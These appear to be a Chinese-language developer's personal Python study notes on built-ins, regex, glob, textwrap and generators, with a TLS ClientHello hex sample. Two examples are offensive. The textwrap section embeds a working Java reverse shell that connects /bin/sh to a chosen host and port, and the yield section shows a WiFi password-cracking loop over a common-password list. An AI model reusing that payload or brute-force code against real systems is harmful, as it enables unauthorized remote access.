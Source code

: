 # Python 一些库、模块、类、对象、方法、函数

<!--last modify: 20230823-->



```cmd
>>>import paramiko
>>>
>>>y = paramiko.auth_handler.AuthHandler
>>>
>>>dir(y._handler_table)
>>>
```





- read().splitlines() 方法，可以一次性读取所有行并去除行末的换行符。

  

- print() 中 '\r'的用处

  使用'\r'字符将光标移动到行首，以便在下一次输出时覆盖先前的消息。

  ```python
  for i in range(num):
      time.sleep(1)
      print(f'\r扫描可用 WiFi 中，请稍后。。。({num - i})', end='')
  ```

- bytes.fromhex 方法

  十六进制字符串转换为二进制数据

  ```python
  data = '''16 03 03 00 dc 01 00 00  d8 03 03 53
  43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
  bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
  00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
  00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
  c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
  c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
  c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
  c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
  00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
  03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
  00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
  00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
  00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
  00 0f 00 01 01'''
  
  hex_str = data.replace(' ', '').replace('\n', '')
  hex_str = '16030300dc010000d8030353435b909d9b720bbc0cbc2b92a84897cfbd3904cc160a8503909f770433d4de000066c014c00ac022c0210039003800880087c00fc00500350084c012c008c01cc01b00160013c00dc003000ac013c009c01fc01e00330032009a009900450044c00ec004002f00960041c011c007c00cc002000500040015001200090014001100080006000300ff01000049000b000403000102000a00340032000e000d0019000b000c00180009000a00160017000800060007001400150004000500120013000100020003000f0010001100230000000f000101'
  
  bin_data = bytes.fromhex(data)
  bin_data = binascii.unhexlify(data)
  bin_data = b'\x16\x03\x03\x00\xdc\x01\x00\x00\xd8\x03\x03SC[\x90\x9d\x9br\x0b\xbc\x0c\xbc+\x92\xa8H\x97\xcf\xbd9\x04\xcc\x16\n\x85\x03\x90\x9fw\x043\xd4\xde\x00\x00f\xc0\x14\xc0\n\xc0"\xc0!\x009\x008\x00\x88\x00\x87\xc0\x0f\xc0\x05\x005\x00\x84\xc0\x12\xc0\x08\xc0\x1c\xc0\x1b\x00\x16\x00\x13\xc0\r\xc0\x03\x00\n\xc0\x13\xc0\t\xc0\x1f\xc0\x1e\x003\x002\x00\x9a\x00\x99\x00E\x00D\xc0\x0e\xc0\x04\x00/\x00\x96\x00A\xc0\x11\xc0\x07\xc0\x0c\xc0\x02\x00\x05\x00\x04\x00\x15\x00\x12\x00\t\x00\x14\x00\x11\x00\x08\x00\x06\x00\x03\x00\xff\x01\x00\x00I\x00\x0b\x00\x04\x03\x00\x01\x02\x00\n\x004\x002\x00\x0e\x00\r\x00\x19\x00\x0b\x00\x0c\x00\x18\x00\t\x00\n\x00\x16\x00\x17\x00\x08\x00\x06\x00\x07\x00\x14\x00\x15\x00\x04\x00\x05\x00\x12\x00\x13\x00\x01\x00\x02\x00\x03\x00\x0f\x00\x10\x00\x11\x00#\x00\x00\x00\x0f\x00\x01\x01'
  ```

- from __future__ import print_function

  这行代码是一个 Python 2.x 兼容性的导入语句，它允许在 Python 2.x 代码库中使用 Python 3.x 的 `print()` 函数。在 Python 2.x 中，`print` 是一个语句而不是一个函数，因此不能使用括号。但是，在 Python 3.x 中，`print` 是一个函数，需要使用括号。通过从 `__future__` 模块中导入 `print_function`，这段代码启用了在 Python 2.x 代码中使用 Python 3.x 的 `print()` 函数，从而实现了更加一致和可移植的代码。

- set()

  用于创建一个无序不重复元素集，可进行交、并、差集等操作；可接受一个可迭代对象作为参数(列表、元组、字符串)，不传参默认创建空集合

- extend() 列表对象的方法

  - 用于将一个可迭代对象中的元素添加到列表中，其不会创建新的列表对象，而是直接在原列表对象上修改

    ```python
    list.extend(iterable) # list 是要进行修改的列表对象，iterable 是可迭代对象，即列表、元素、集合、字典等
    ```

- enumerate() 函数

  - 获取循环中的索引值

    ```python
    for i, root_element in enumerate(root_elements):
        movie_names = {time_frames[i]: {}}
    ```

- itertools.product 函数，减少代码嵌套深度

- os.path.isfile / os.path.exists / os.makedirs / os.mkdir / os.pat

  os.path.isfile 函数可避免将目录误认为是文件；

  os.makedirs 函数创建目录，可避免多线程环境下出现竞争条件；

  `os.path.splitext`函数来获取文件扩展名，而不是手动解析文件名。这样可以避免出现解析错误。

- python 中函数名相同的函数，后面的函数会覆盖前面的函数。

  ```python
  def function(arg1 = None, arg2 = None):
      print('hello world')
  
  def function(arg1 = None, arg2 = None, sign = True):
      print('hello python')
  
  def main():
      function() # 将会输出'hello python'
  ```

- 正则

  ```
  pattern1 = re.compile(r'^.*!\[.*\]\((.*\.[a-z]*)\).*$', flags=re.MULTILINE)
  pattern1 = re.compile(r'.*!\[.*\](\(.*\.[a-z]*\))')
  pattern2 = re.compile(r'^.*<img src="(.*\.[a-z]*)" ([a-z]*=.*;)" />.*$', flags=re.MULTILINE)
  pattern2 = re.compile(r".*<img src=\"(.*\.[a-z]*)\" ([a-z]*=.*;\" />)")
  
  with open(file_path, 'r', encoding='utf-8') as f1, open(new_file_path, 'w', encoding='utf-8') as f2:
      for line in f1:
          matchObj1 = pattern1.match(line)
          matchObj2 = pattern2.match(line)
  
  r'^.*!\[.*\]\((.*\.[a-z]*)\).*$' 匹配的是类似于 ![image](path/to/image.png) 这样的字符串，其中括号包含了图片的路径。这个正则表达式使用了捕获组，即括号内的部分会被提取出来作为匹配结果的一部分。
  r'.*!\[.*\](\(.*\.[a-z]*\))' 匹配的是类似于 ![image](path/to/image.png) 这样的字符串，其中括号包含了图片的路径。这个正则表达式没有使用捕获组，即括号内的部分不会被提取出来作为匹配结果的一部分。
  ```
  
- `urlparse` 是 Python 2 中的模块，在 Python 3 中已经被重命名为 `urllib.parse`。



- ord()函数是Python内置函数之一，用于返回一个字符的Unicode码点。它接受一个字符作为参数，并返回该字符的Unicode码点。例如，ord('A')将返回65，因为'A'的Unicode码点是65。在这个例子中，ord()函数用于将二进制数据的每个字节转换为其对应的整数值。
- chr()函数是Python内置函数之一，用于将Unicode码点转换为对应的字符。它接受一个整数作为参数，并返回该整数对应的字符。例如，chr(65)将返回字符'A'，因为65是字符'A'的Unicode码点。在这个例子中，chr()函数用于将二进制数据的每个整数值转换为其对应的字符。

### 0x00x000 模块 glob

使用 `glob` 模块来获取文件夹中的所有 Word 文件，避免使用 `os.walk` 函数。

```
import glob

def batch_replace_text(dir_path, old_text, new_text):
    '''
    批量替换文件夹中所有 Word 文件中的文本内容。
    :param dir_path: 目标文件夹路径。
    :param old_text: 要替换的文本内容。
    :param new_text: 替换后的文本内容。
    '''
    for file_path in glob.glob(os.path.join(dir_path, '*.docx')) + glob.glob(os.path.join(dir_path, '*.doc')):
        try:
            replace_text_in_docx(file_path, old_text, new_text)
        except Exception as e:
            print(f"Error processing {file_path}: {e}")
```

1. `glob` 模块可以使用通配符来匹配文件名，例如 `*.txt` 表示匹配所有扩展名为 `.txt` 的文件。而 `os.walk` 函数只能遍历文件夹中的所有文件和子文件夹，不能根据文件名进行筛选。
2. `glob` 模块返回的是一个列表，其中包含了所有匹配指定模式的文件路径。而 `os.walk` 函数返回的是一个三元组 `(dirpath, dirnames, filenames)`，其中 `dirpath` 是当前文件夹的路径，`dirnames` 是当前文件夹中所有子文件夹的名称，`filenames` 是当前文件夹中所有文件的名称。
3. `glob` 模块更加简洁和易于使用，适合用于简单的文件遍历操作。而 `os.walk` 函数更加灵活和强大，可以用于更复杂的文件操作，例如递归遍历文件夹中的所有文件，或者根据文件名、文件大小、修改时间等条件进行筛选。

### 0x00x001 模块 textwrap

可用于格式化文本，包括自定义函数中的多行文本。

```python
import textwrap

def generate_payload(userip, lport) -> None:
    java_program = textwrap.dedent("""\
        import java.io.IOException;
        import java.io.InputStream;
        import java.io.OutputStream;
        import java.net.Socket;

        public class Exploit {
            public Exploit() throws Exception {
                String host="%s";
                int port=%s;
                String cmd="/bin/sh";
                Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
                Socket s=new Socket(host,port);
                InputStream pi=p.getInputStream(),
                    pe=p.getErrorStream(),
                    si=s.getInputStream();
                OutputStream po=p.getOutputStream(),so=s.getOutputStream();
                while(!s.isClosed()) {
                    while(pi.available()>0)
                        so.write(pi.read());
                    while(pe.available()>0)
                        so.write(pe.read());
                    while(si.available()>0)
                        po.write(si.read());
                    so.flush();
                    po.flush();
                    Thread.sleep(50);
                    try {
                        p.exitValue();
                        break;
                    }
                    catch (Exception e){
                    }
                };
                p.destroy();
                s.close();
            }
        }
    """ % (userip, lport))
```

### 0x00x002 yield 语句

- 使用 `yield` 语句可以将函数转换为生成器，可以逐行返回密码，而不是一次性返回所有密码。
- 将密码列表作为参数传递给函数，而不是在函数内部读取文件，这样可以使函数更加通用。

```
def crack_wifi_pass(passwords, wifi_info=None):
    for password in passwords:
        logger.info(password)
        yield password
        
with open("../data/top1000.txt", "r") as f:
    passwords = f.read().splitlines()
    for password in crack_wifi_pass(passwords):
        # do something with password
```

